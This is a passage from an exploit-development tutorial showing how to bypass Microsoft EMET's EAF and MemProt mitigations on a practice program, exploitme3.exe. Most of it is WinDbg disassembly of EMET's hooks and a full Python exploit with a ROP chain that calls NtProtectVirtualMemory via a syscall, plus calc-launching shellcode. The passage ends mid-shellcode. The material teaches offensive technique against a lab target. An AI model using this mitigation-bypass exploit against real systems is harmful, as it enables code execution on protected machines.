"\x89\x4C\x24\x0C" + # mov dword ptr [esp+0Ch],ecx
"\x89\x4C\x24\x10" + # mov dword ptr [esp+10h],ecx
"\x89\x4C\x24\x14" + # mov dword ptr [esp+14h],ecx
"\x89\x4C\x24\x18" + # mov dword ptr [esp+18h],ecx
"\x54" + # push esp
"\x6A\xFE" + # push 0FFFFFFFEh
"\x8B\xD4" + # mov edx,esp
"\x64\xFF\x15\xC0\x00\x00\x00" + # call dword ptr fs:[0C0h]
"\x81\xC4\xD8\x02\x00\x00" # add esp,2D8h
)
code = disable_EAF + shellcode
name = 'a'*36 + struct.pack('<I', ret_eip) + create_rop_chain(len(code)) + code
f.write(name)
write_file(r'c:\deleteme\name.dat')
If we run exploitme3.exe, the calculator pops up! We bypassed EAF! We can also enable EAF+. Nothing changes.
MemProt
In our exploit we use VirtualProtect to make the portion of the stack which contains our shellcode executable. MemProt should be the perfect protection against that technique. Let’s enable it for exploitme3.exe. As expected, when we run exploitme3.exe, MemProt stops our exploit and exploitme3 crashes.
Let’s see what happens in WinDbg. Open exploitme3.exe in WinDbg and put a breakpoint on exploitme3!f. Then step through the function f and after the ret instruction we should reach our ROP code. Keep stepping until you get to the jmp to VirtualProtect.
Here, we see something strange:
kernel32!VirtualProtectStub: 763b4327 e984c1b5c0 jmp 36f104b0 <------------------ is this a hook? 763b432c 5d pop ebp 763b432d e996cdffff jmp kernel32!VirtualProtect (763b10c8) 763b4332 8b0e mov ecx,dword ptr [esi] 763b4334 8908 mov dword ptr [eax],ecx 763b4336 8b4e04 mov ecx,dword ptr [esi+4] 763b4339 894804 mov dword ptr [eax+4],ecx 763b433c e9e9eaffff jmp kernel32!LocalBaseRegEnumKey+0x292 (763b2e2a) 763b4341 8b85d0feffff mov eax,dword ptr [ebp-130h]
The function starts with a jmp! Let’s see where it leads us to:
36f104b0 83ec24 sub esp,24h 36f104b3 68e88b1812 push 12188BE8h 36f104b8 6840208f70 push offset EMET!EMETSendCert+0xac0 (708f2040) 36f104bd 68d604f136 push 36F104D6h 36f104c2 6804000000 push 4 36f104c7 53 push ebx 36f104c8 60 pushad 36f104c9 54 push esp 36f104ca e8816c9a39 call EMET+0x27150 (708b7150) 36f104cf 61 popad 36f104d0 83c438 add esp,38h 36f104d3 c21000 ret 10h
OK, that’s EMET. That jmp is a hook put there by EMET to intercept calls to VirtualProtect.
We can see that if it weren’t for the hook, the VirtualProtectStub would call kernel32!VirtualProtect. Let’s have a look at it:
0:000> u kernel32!VirtualProtect kernel32!VirtualProtect: 763b10c8 ff2518093b76 jmp dword ptr [kernel32!_imp__VirtualProtect (763b0918)] 763b10ce 90 nop 763b10cf 90 nop 763b10d0 90 nop 763b10d1 90 nop 763b10d2 90 nop kernel32!WriteProcessMemory: 763b10d3 ff251c093b76 jmp dword ptr [kernel32!_imp__WriteProcessMemory (763b091c)] 763b10d9 90 nop
That’s just a redirection which has nothing to do with EMET:
0:000> u poi(763b0918) KERNELBASE!VirtualProtect: 7625efc3 e9d815cbc0 jmp 36f105a0 <----------------- another hook from EMET 7625efc8 ff7514 push dword ptr [ebp+14h] 7625efcb ff7510 push dword ptr [ebp+10h] 7625efce ff750c push dword ptr [ebp+0Ch] 7625efd1 ff7508 push dword ptr [ebp+8] 7625efd4 6aff push 0FFFFFFFFh 7625efd6 e8c1feffff call KERNELBASE!VirtualProtectEx (7625ee9c) 7625efdb 5d pop ebp
Note the hook from EMET. While VirtualProtect operates on the current process, VirtualProtectEx lets you specify the process you want to work on. As we can see, VirtualProtect just calls VirtualProtectEx passing -1, which is the value returned by GetCurrentProcess, as first argument. The other arguments are the same as the ones passed to VirtualProtect.
Now let’s examine VirtualProtectEx:
0:000> u KERNELBASE!VirtualProtectEx KERNELBASE!VirtualProtectEx: 7625ee9c e97717cbc0 jmp 36f10618 <----------------- another hook from EMET 7625eea1 56 push esi 7625eea2 8b35c0112576 mov esi,dword ptr [KERNELBASE!_imp__NtProtectVirtualMemory (762511c0)] 7625eea8 57 push edi 7625eea9 ff7518 push dword ptr [ebp+18h] 7625eeac 8d4510 lea eax,[ebp+10h] 7625eeaf ff7514 push dword ptr [ebp+14h] 7625eeb2 50 push eax 0:000> u KERNELBASE!VirtualProtectEx+0x17: 7625eeb3 8d450c lea eax,[ebp+0Ch] 7625eeb6 50 push eax 7625eeb7 ff7508 push dword ptr [ebp+8] 7625eeba ffd6 call esi <------------------- calls NtProtectVirtualMemory 7625eebc 8bf8 mov edi,eax 7625eebe 85ff test edi,edi 7625eec0 7c05 jl KERNELBASE!VirtualProtectEx+0x2b (7625eec7) 7625eec2 33c0 xor eax,eax
Again, note the hook from EMET. VirtualProtectEx calls NtProtectVirtualMemory:
0:000> u poi(KERNELBASE!_imp__NtProtectVirtualMemory) ntdll!ZwProtectVirtualMemory: 76eb0038 e9530606c0 jmp 36f10690 <----------------- this is getting old... 76eb003d 33c9 xor ecx,ecx 76eb003f 8d542404 lea edx,[esp+4] 76eb0043 64ff15c0000000 call dword ptr fs:[0C0h] 76eb004a 83c404 add esp,4 76eb004d c21400 ret 14h ntdll!ZwQuerySection: 76eb0050 b84e000000 mov eax,4Eh 76eb0055 33c9 xor ecx,ecx
That looks quite familiar: ZwProtectVirtualMemory calls a ring 0 service! Note that the service number has been overwritten by EMET’s hook, but 0x4d would be a good guess since the service number of the next function is 0x4E.
If you have another look at VirtualProtectEx, you’ll see that the parameters pointed to by EDX in ZwProtectVirtualMemory are not in the same format as those passed to VirtualProtectEx. To have a closer look, let’s disable MemProt, restart (Ctrl+Shift+F5) exploitme3.exe in WinDbg and set the following breakpoint:
bp exploitme3!f "bp KERNELBASE!VirtualProtectEx;g"
This will break on the call to VirtualProtectEx executed by our ROP chain. We hit F5 (go) and we end up here:
KERNELBASE!VirtualProtectEx: 7625ee9c 8bff mov edi,edi <-------------------- we are here! 7625ee9e 55 push ebp 7625ee9f 8bec mov ebp,esp 7625eea1 56 push esi 7625eea2 8b35c0112576 mov esi,dword ptr [KERNELBASE!_imp__NtProtectVirtualMemory (762511c0)] 7625eea8 57 push edi 7625eea9 ff7518 push dword ptr [ebp+18h] 7625eeac 8d4510 lea eax,[ebp+10h] 7625eeaf ff7514 push dword ptr [ebp+14h] 7625eeb2 50 push eax 7625eeb3 8d450c lea eax,[ebp+0Ch] 7625eeb6 50 push eax 7625eeb7 ff7508 push dword ptr [ebp+8] 7625eeba ffd6 call esi
This time, as expected, there’s no hook. Here are our 5 parameters on the stack:

Let’s see what is put onto the stack:
{kind=link}
KERNELBASE!VirtualProtectEx: 7625ee9c 8bff mov edi,edi <-------------------- we are here! 7625ee9e 55 push ebp 7625ee9f 8bec mov ebp,esp 7625eea1 56 push esi 7625eea2 8b35c0112576 mov esi,dword ptr [KERNELBASE!_imp__NtProtectVirtualMemory (762511c0)] 7625eea8 57 push edi 7625eea9 ff7518 push dword ptr [ebp+18h] // lpflOldProtect (writable location) 7625eeac 8d4510 lea eax,[ebp+10h] 7625eeaf ff7514 push dword ptr [ebp+14h] // PAGE_EXECUTE_READWRITE 7625eeb2 50 push eax // ptr to size 7625eeb3 8d450c lea eax,[ebp+0Ch] 7625eeb6 50 push eax // ptr to address 7625eeb7 ff7508 push dword ptr [ebp+8] // 0xffffffff (current process) 7625eeba ffd6 call esi
Let’s step into the call:
ntdll!ZwProtectVirtualMemory: 76eb0038 b84d000000 mov eax,4Dh 76eb003d 33c9 xor ecx,ecx 76eb003f 8d542404 lea edx,[esp+4] 76eb0043 64ff15c0000000 call dword ptr fs:[0C0h] 76eb004a 83c404 add esp,4 76eb004d c21400 ret 14h
EDX will point to the following 5 parameters in this order:
0xffffffff (current process) ptr to address ptr to size PAGE_EXECUTE_READWRITE lpflOldProtect (writable location)
Here’s a concrete example:

Before wasting our time with building a ROP chain that might not work, we should make sure that there aren’t any other surprises.
{kind=link}
An easy way to do this, is to debug exploitme3.exe with MemProt enabled and overwrite the EMET’s hooks with the original code. If everything works fine, then we’re ready to proceed. I’ll leave you this as an exercise (do it!).
Building the ROP chain
Even though we want to call a kernel service the same way we did for clearing the debug registers, this time it’ll be much harder because we need to do this with ROP gadgets.
The main problem is that msvcr120.dll doesn’t contain any call dword ptr fs:[0C0h] or variation of it such as call fs:[eax] or call fs:eax. We know that in ntdll there are lots of these calls so maybe we can find a way to get the address of one of them?
Let’s have a look at the IAT (Import Address Table) of msvcr120.dll:
0:000> !dh msvcr120
File Type: DLL
FILE HEADER VALUES
14C machine (i386)
5 number of sections
524F7CE6 time date stamp Sat Oct 05 04:43:50 2013
0 file pointer to symbol table
0 number of symbols
E0 size of optional header
2122 characteristics
Executable
App can handle >2gb addresses
32 bit word machine
DLL
OPTIONAL HEADER VALUES
10B magic #
12.00 linker version
DC200 size of code
DC00 size of initialized data
0 size of uninitialized data
11A44 address of entry point
1000 base of code
----- new -----
73c60000 image base
1000 section alignment
200 file alignment
2 subsystem (Windows GUI)
6.00 operating system version
10.00 image version
6.00 subsystem version
EE000 size of image
400 size of headers
FB320 checksum
00100000 size of stack reserve
00001000 size of stack commit
00100000 size of heap reserve
00001000 size of heap commit
140 DLL characteristics
Dynamic base
NX compatible
1860 [ CED0] address [size] of Export Directory
E52BC [ 28] address [size] of Import Directory
E7000 [ 3E8] address [size] of Resource Directory
0 [ 0] address [size] of Exception Directory
E9200 [ 3EA0] address [size] of Security Directory
E8000 [ 5D64] address [size] of Base Relocation Directory
DD140 [ 38] address [size] of Debug Directory
0 [ 0] address [size] of Description Directory
0 [ 0] address [size] of Special Directory
0 [ 0] address [size] of Thread Storage Directory
19E48 [ 40] address [size] of Load Configuration Directory
0 [ 0] address [size] of Bound Import Directory
E5000 [ 2BC] address [size] of Import Address Table Directory <------------------------
0 [ 0] address [size] of Delay Import Directory
0 [ 0] address [size] of COR20 Header Directory
0 [ 0] address [size] of Reserved Directory
[...]
0:000> dds msvcr120+E5000 L 2bc/4
73d45000 76ed107b ntdll!RtlEncodePointer
73d45004 76ec9dd5 ntdll!RtlDecodePointer
73d45008 763b586e kernel32!RaiseExceptionStub
73d4500c 763b11c0 kernel32!GetLastErrorStub
73d45010 763b79d8 kernel32!FSPErrorMessages::CMessageMapper::StaticCleanup+0xc
73d45014 763b3470 kernel32!GetModuleHandleWStub
73d45018 763b4a37 kernel32!GetModuleHandleExWStub
73d4501c 763b1222 kernel32!GetProcAddressStub
73d45020 76434611 kernel32!AreFileApisANSIStub
73d45024 763b18fa kernel32!MultiByteToWideCharStub
73d45028 763b16d9 kernel32!WideCharToMultiByteStub
73d4502c 763b5169 kernel32!GetCommandLineAStub
73d45030 763b51eb kernel32!GetCommandLineWStub
73d45034 763b1420 kernel32!GetCurrentThreadIdStub
73d45038 76eb22c0 ntdll!RtlEnterCriticalSection
73d4503c 76eb2280 ntdll!RtlLeaveCriticalSection
73d45040 76ec4625 ntdll!RtlDeleteCriticalSection
73d45044 763b1481 kernel32!GetModuleFileNameAStub
73d45048 763b11a9 kernel32!SetLastError
73d4504c 763b17b8 kernel32!GetCurrentThreadStub
73d45050 763b4918 kernel32!GetModuleFileNameWStub
73d45054 763b51fd kernel32!IsProcessorFeaturePresent
73d45058 763b517b kernel32!GetStdHandleStub
73d4505c 763b1282 kernel32!WriteFileImplementation
73d45060 763b440a kernel32!FindCloseStub
73d45064 764347bf kernel32!FindFirstFileExAStub
73d45068 763dd52e kernel32!FindNextFileAStub
73d4506c 763c17d9 kernel32!FindFirstFileExWStub
73d45070 763b54b6 kernel32!FindNextFileWStub
73d45074 763b13e0 kernel32!CloseHandleImplementation
73d45078 763b3495 kernel32!CreateThreadStub
73d4507c 76ee801c ntdll!RtlExitUserThread
73d45080 763b43b7 kernel32!ResumeThreadStub
73d45084 763b4925 kernel32!LoadLibraryExWStub
73d45088 763d0622 kernel32!SystemTimeToTzSpecificLocalTimeStub
73d4508c 763b53f4 kernel32!FileTimeToSystemTimeStub
73d45090 7643487f kernel32!GetDiskFreeSpaceAStub
73d45094 763b5339 kernel32!GetLogicalDrivesStub
73d45098 763b1acc kernel32!SetErrorModeStub
73d4509c 764256f0 kernel32!BeepImplementation
73d450a0 763b10ff kernel32!SleepStub
73d450a4 763be289 kernel32!GetFullPathNameAStub
73d450a8 763b11f8 kernel32!GetCurrentProcessIdStub
73d450ac 763b453c kernel32!GetFileAttributesExWStub
73d450b0 763cd4c7 kernel32!SetFileAttributesWStub
73d450b4 763b409c kernel32!GetFullPathNameWStub
73d450b8 763b4221 kernel32!CreateDirectoryWStub
73d450bc 763c9b05 kernel32!MoveFileExW
73d450c0 76434a0f kernel32!RemoveDirectoryWStub
73d450c4 763b4153 kernel32!GetDriveTypeWStub
73d450c8 763b897b kernel32!DeleteFileWStub
73d450cc 763be2f9 kernel32!SetEnvironmentVariableAStub
73d450d0 763c17fc kernel32!SetCurrentDirectoryAStub
73d450d4 763dd4e6 kernel32!GetCurrentDirectoryAStub
73d450d8 763c1228 kernel32!SetCurrentDirectoryWStub
73d450dc 763b55d9 kernel32!GetCurrentDirectoryWStub
73d450e0 763b89b9 kernel32!SetEnvironmentVariableWStub
73d450e4 763b1136 kernel32!WaitForSingleObject
73d450e8 763c1715 kernel32!GetExitCodeProcessImplementation
73d450ec 763b1072 kernel32!CreateProcessA
73d450f0 763b3488 kernel32!FreeLibraryStub
73d450f4 763b48db kernel32!LoadLibraryExAStub
73d450f8 763b103d kernel32!CreateProcessW
73d450fc 763b3e93 kernel32!ReadFileImplementation
73d45100 763d273c kernel32!GetTempPathA
73d45104 763cd4ac kernel32!GetTempPathW
73d45108 763b1852 kernel32!DuplicateHandleImplementation
73d4510c 763b17d5 kernel32!GetCurrentProcessStub
73d45110 763b34c9 kernel32!GetSystemTimeAsFileTimeStub
73d45114 763b4622 kernel32!GetTimeZoneInformationStub
73d45118 763b5a6e kernel32!GetLocalTimeStub
73d4511c 763dd4fe kernel32!LocalFileTimeToFileTimeStub
73d45120 763cec8b kernel32!SetFileTimeStub
73d45124 763b5a46 kernel32!SystemTimeToFileTimeStub
73d45128 76434a6f kernel32!SetLocalTimeStub
73d4512c 76ec47a0 ntdll!RtlInterlockedPopEntrySList
73d45130 76ec27b5 ntdll!RtlInterlockedFlushSList
73d45134 76ec474c ntdll!RtlQueryDepthSList
73d45138 76ec4787 ntdll!RtlInterlockedPushEntrySList
73d4513c 763db000 kernel32!CreateTimerQueueStub
73d45140 763b1691 kernel32!SetEventStub
73d45144 763b1151 kernel32!WaitForSingleObjectExImplementation
73d45148 7643ebeb kernel32!UnregisterWait
73d4514c 763b11e0 kernel32!TlsGetValueStub
73d45150 763cf874 kernel32!SignalObjectAndWait
73d45154 763b14cb kernel32!TlsSetValueStub
73d45158 763b327b kernel32!SetThreadPriorityStub
73d4515c 7643462b kernel32!ChangeTimerQueueTimerStub
73d45160 763cf7bb kernel32!CreateTimerQueueTimerStub
73d45164 76432482 kernel32!GetNumaHighestNodeNumber
73d45168 763dcaf5 kernel32!RegisterWaitForSingleObject
73d4516c 76434ca1 kernel32!GetLogicalProcessorInformationStub
73d45170 763ccd9d kernel32!RtlCaptureStackBackTraceStub
73d45174 763b4387 kernel32!GetThreadPriorityStub
73d45178 763ba839 kernel32!GetProcessAffinityMask
73d4517c 763d0570 kernel32!SetThreadAffinityMask
73d45180 763b4975 kernel32!TlsAllocStub
73d45184 763cf7a3 kernel32!DeleteTimerQueueTimerStub
73d45188 763b3547 kernel32!TlsFreeStub
73d4518c 763cefbc kernel32!SwitchToThreadStub
73d45190 76ec2540 ntdll!RtlTryEnterCriticalSection
73d45194 7643347c kernel32!SetProcessAffinityMask
73d45198 763b183a kernel32!VirtualFreeStub
73d4519c 763b1ab1 kernel32!GetVersionExWStub
73d451a0 763b1822 kernel32!VirtualAllocStub
73d451a4 763b4327 kernel32!VirtualProtectStub
73d451a8 76ec9514 ntdll!RtlInitializeSListHead
73d451ac 763cd37b kernel32!ReleaseSemaphoreStub
73d451b0 763db901 kernel32!UnregisterWaitExStub
73d451b4 763b48f3 kernel32!LoadLibraryW
73d451b8 763dd1c4 kernel32!OutputDebugStringWStub
73d451bc 763cd552 kernel32!FreeLibraryAndExitThreadStub
73d451c0 763b1245 kernel32!GetModuleHandleAStub
73d451c4 7643592b kernel32!GetThreadTimes
73d451c8 763b180a kernel32!CreateEventWStub
73d451cc 763b1912 kernel32!GetStringTypeWStub
73d451d0 763b445b kernel32!IsValidCodePageStub
73d451d4 763b1768 kernel32!GetACPStub
73d451d8 763dd191 kernel32!GetOEMCPStub
73d451dc 763b5151 kernel32!GetCPInfoStub
73d451e0 763dd1b3 kernel32!RtlUnwindStub
73d451e4 763b1499 kernel32!HeapFree
73d451e8 76ebe046 ntdll!RtlAllocateHeap
73d451ec 763b14b9 kernel32!GetProcessHeapStub
73d451f0 76ed2561 ntdll!RtlReAllocateHeap
73d451f4 76ec304a ntdll!RtlSizeHeap
73d451f8 7643493f kernel32!HeapQueryInformationStub
73d451fc 763cb153 kernel32!HeapValidateStub
73d45200 763b46df kernel32!HeapCompactStub
73d45204 7643496f kernel32!HeapWalkStub
73d45208 763b4992 kernel32!GetSystemInfoStub
73d4520c 763b4422 kernel32!VirtualQueryStub
73d45210 763b34f1 kernel32!GetFileTypeImplementation
73d45214 763b4d08 kernel32!GetStartupInfoWStub
73d45218 763be266 kernel32!FileTimeToLocalFileTimeStub
73d4521c 763b5376 kernel32!GetFileInformationByHandleStub
73d45220 76434d61 kernel32!PeekNamedPipeStub
73d45224 763b3f1c kernel32!CreateFileWImplementation
73d45228 763b1328 kernel32!GetConsoleMode
73d4522c 764578d2 kernel32!ReadConsoleW
73d45230 76458137 kernel32!GetConsoleCP
73d45234 763cc7df kernel32!SetFilePointerExStub
73d45238 763b4663 kernel32!FlushFileBuffersImplementation
73d4523c 7643469b kernel32!CreatePipeStub
73d45240 76434a8f kernel32!SetStdHandleStub
73d45244 76457e77 kernel32!GetNumberOfConsoleInputEvents
73d45248 76457445 kernel32!PeekConsoleInputA
73d4524c 7645748b kernel32!ReadConsoleInputA
73d45250 763ca755 kernel32!SetConsoleMode
73d45254 764574ae kernel32!ReadConsoleInputW
73d45258 763d7a92 kernel32!WriteConsoleW
73d4525c 763cce06 kernel32!SetEndOfFileStub
73d45260 763dd56c kernel32!LockFileExStub
73d45264 763dd584 kernel32!UnlockFileExStub
73d45268 763b4a25 kernel32!IsDebuggerPresentStub
73d4526c 763d76f7 kernel32!UnhandledExceptionFilter
73d45270 763b8791 kernel32!SetUnhandledExceptionFilter
73d45274 763b18e2 kernel32!InitializeCriticalSectionAndSpinCountStub
73d45278 763cd7d2 kernel32!TerminateProcessStub
73d4527c 763b110c kernel32!GetTickCountStub
73d45280 763cca32 kernel32!CreateSemaphoreW
73d45284 763b89d1 kernel32!SetConsoleCtrlHandler
73d45288 763b16f1 kernel32!QueryPerformanceCounterStub
73d4528c 763b51ab kernel32!GetEnvironmentStringsWStub
73d45290 763b5193 kernel32!FreeEnvironmentStringsWStub
73d45294 763d34a7 kernel32!GetDateFormatW
73d45298 763cf451 kernel32!GetTimeFormatW
73d4529c 763b3b8a kernel32!CompareStringWStub
73d452a0 763b1785 kernel32!LCMapStringWStub
73d452a4 763b3c02 kernel32!GetLocaleInfoWStub
73d452a8 763cce1e kernel32!IsValidLocaleStub
73d452ac 763b3d65 kernel32!GetUserDefaultLCIDStub
73d452b0 7643479f kernel32!EnumSystemLocalesWStub
73d452b4 763db297 kernel32!OutputDebugStringAStub
73d452b8 00000000I examined the ntdll functions one by one until I found a viable candidate: ntdll!RtlExitUserThread.
Let’s examine it:
ntdll!RtlExitUserThread: 76ee801c 8bff mov edi,edi 76ee801e 55 push ebp 76ee801f 8bec mov ebp,esp 76ee8021 51 push ecx 76ee8022 56 push esi 76ee8023 33f6 xor esi,esi 76ee8025 56 push esi 76ee8026 6a04 push 4 76ee8028 8d45fc lea eax,[ebp-4] 76ee802b 50 push eax 76ee802c 6a0c push 0Ch 76ee802e 6afe push 0FFFFFFFEh 76ee8030 8975fc mov dword ptr [ebp-4],esi 76ee8033 e8d07bfcff call ntdll!NtQueryInformationThread (76eafc08) <-------------------
Now let’s examine ntdll!NtQueryInformationThread:
ntdll!NtQueryInformationThread: 76eafc08 b822000000 mov eax,22h 76eafc0d 33c9 xor ecx,ecx 76eafc0f 8d542404 lea edx,[esp+4] 76eafc13 64ff15c0000000 call dword ptr fs:[0C0h] 76eafc1a 83c404 add esp,4 76eafc1d c21400 ret 14h
Perfect! Now how do we determine the address of that call dword ptr fs:[0C0h]?
We know the address of ntdll!RtlExitUserThread because it’s at a fixed RVA in the IAT of msvcr120. At the address ntdll!RtlExitUserThread+0x17 we have the call to ntdll!NtQueryInformationThread. That call has this format:
here: E8 offset
and the target address is
here + offset + 5
In the ROP we will determine the address of ntdll!NtQueryInformationThread as follows:
EAX = 0x7056507c ; ptr to address of ntdll!RtlExitUserThread (IAT) EAX = [EAX] ; address of ntdll!RtlExitUserThread EAX += 0x18 ; address of "offset" component of call to ntdll!NtQueryInformationThread EAX += [EAX] + 4 ; address of ntdll!NtQueryInformationThread EAX += 0xb ; address of "call dword ptr fs:[0C0h] # add esp,4 # ret 14h"
We’re ready to build the ROP chain! As always, we’ll use mona:
.load pykd.pyd !py mona rop -m msvcr120
Here’s the full Python script:
import struct
msvcr120 = 0x73c60000
# Delta used to fix the addresses based on the new base address of msvcr120.dll.
md = msvcr120 - 0x70480000
def create_rop_chain(code_size):
rop_gadgets = [
# ecx = esp
md + 0x704af28c, # POP ECX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0xffffffff,
md + 0x70532761, # AND ECX,ESP # RETN ** [MSVCR120.dll] ** | asciiprint,ascii {PAGE_EXECUTE_READ}
# ecx = args+8 (&endAddress)
md + 0x704f4681, # POP EBX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
75*4,
md + 0x7054b28e, # ADD ECX,EBX # POP EBP # OR AL,0D9 # INC EBP # OR AL,5D # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0x11111111,
# address = ptr to address
md + 0x704f2487, # MOV EAX,ECX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x704846b4, # XCHG EAX,EDX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x704e986b, # MOV DWORD PTR [ECX],EDX # POP EBP # RETN 0x04 ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0x11111111,
md + 0x7048f607, # RETN (ROP NOP) [MSVCR120.dll]
0x11111111, # for RETN 0x04
# ecx = args+4 (ptr to &address)
md + 0x704f4681, # POP EBX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0xfffffff0,
md + 0x7054b28e, # ADD ECX,EBX # POP EBP # OR AL,0D9 # INC EBP # OR AL,5D # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0x11111111,
# &address = ptr to address
md + 0x704e986b, # MOV DWORD PTR [ECX],EDX # POP EBP # RETN 0x04 ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0x11111111,
md + 0x7048f607, # RETN (ROP NOP) [MSVCR120.dll]
0x11111111, # for RETN 0x04
# ecx = args+8 (ptr to &size)
md + 0x705370e0, # INC ECX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x705370e0, # INC ECX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x705370e0, # INC ECX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x705370e0, # INC ECX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
# edx = ptr to size
md + 0x704e4ffe, # INC EDX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x704e4ffe, # INC EDX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x704e4ffe, # INC EDX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x704e4ffe, # INC EDX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
# &size = ptr to size
md + 0x704e986b, # MOV DWORD PTR [ECX],EDX # POP EBP # RETN 0x04 ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0x11111111,
md + 0x7048f607, # RETN (ROP NOP) [MSVCR120.dll]
0x11111111, # for RETN 0x04
# edx = args
md + 0x704f2487, # MOV EAX,ECX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x7053fe65, # SUB EAX,2 # POP EBP # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0x11111111,
md + 0x7053fe65, # SUB EAX,2 # POP EBP # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0x11111111,
md + 0x7053fe65, # SUB EAX,2 # POP EBP # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0x11111111,
md + 0x7053fe65, # SUB EAX,2 # POP EBP # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0x11111111,
md + 0x704846b4, # XCHG EAX,EDX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
# EAX = ntdll!RtlExitUserThread
md + 0x7053b8fb, # POP EAX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x7056507c, # IAT: &ntdll!RtlExitUserThread
md + 0x70501e19, # MOV EAX,DWORD PTR [EAX] # POP ESI # POP EBP # RETN ** [MSVCR120.dll] ** | asciiprint,ascii {PAGE_EXECUTE_READ}
0x11111111,
0x11111111,
# EAX = ntdll!NtQueryInformationThread
md + 0x7049178a, # ADD EAX,8 # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x7049178a, # ADD EAX,8 # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x7049178a, # ADD EAX,8 # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x704a691c, # ADD EAX,DWORD PTR [EAX] # RETN ** [MSVCR120.dll] ** | asciiprint,ascii {PAGE_EXECUTE_READ}
md + 0x704ecd87, # ADD EAX,4 # POP ESI # POP EBP # RETN 0x04 ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0x11111111,
0x11111111,
md + 0x7048f607, # RETN (ROP NOP) [MSVCR120.dll]
0x11111111, # for RETN 0x04
# EAX -> "call dword ptr fs:[0C0h] # add esp,4 # ret 14h"
md + 0x7049178a, # ADD EAX,8 # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x704aa20f, # INC EAX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x704aa20f, # INC EAX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x704aa20f, # INC EAX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
# EBX -> "call dword ptr fs:[0C0h] # add esp,4 # ret 14h"
md + 0x704819e8, # XCHG EAX,EBX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
# ECX = 0; EAX = 0x4d
md + 0x704f2485, # XOR ECX,ECX # MOV EAX,ECX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
md + 0x7053b8fb, # POP EAX # RETN ** [MSVCR120.dll] ** | {PAGE_EXECUTE_READ}
0x4d,
md + 0x704c0a08, # JMP EBX
md + 0x7055adf3, # JMP ESP
0x11111111, # for RETN 0x14
0x11111111, # for RETN 0x14
0x11111111, # for RETN 0x14
0x11111111, # for RETN 0x14
0x11111111, # for RETN 0x14
# real_code:
0x90901eeb, # jmp skip
# args:
0xffffffff, # current process handle
0x11111111, # &address = ptr to address
0x11111111, # &size = ptr to size
0x40,
md + 0x705658f2, # &Writable location [MSVCR120.dll]
# end_args:
0x11111111, # address <------- the region starts here
code_size + 8 # size
# skip:
]
return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
def write_file(file_path):
with open(file_path, 'wb') as f:
ret_eip = md + 0x7048f607 # RETN (ROP NOP) [MSVCR120.dll]
shellcode = (
"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02" +
"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa" +
"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8" +
"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02" +
"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45" +
"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6" +
"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c" +
"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0" +
"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53" +
"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45" +
"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2" +
"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b" +
"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff" +
